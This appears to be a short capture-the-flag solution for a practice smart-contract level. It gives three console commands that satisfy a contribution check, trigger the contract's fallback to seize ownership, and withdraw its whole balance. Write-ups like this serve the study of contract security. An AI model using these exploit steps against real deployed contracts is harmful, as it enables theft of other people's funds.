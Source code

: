 # In the Console

1.  To satisfy `contributions[msg.sender] > 0` in the fallback method:<br/>
    `await contract.contribute({ value: toWei("0.0001") })`
2.  To become the new owner: <br/>
    `await sendTransaction({ from: player, to: contract.address, value: 10000 }`)
3.  Withdraw the balance of the contract: <br/>
    `await contract.withdraw()`
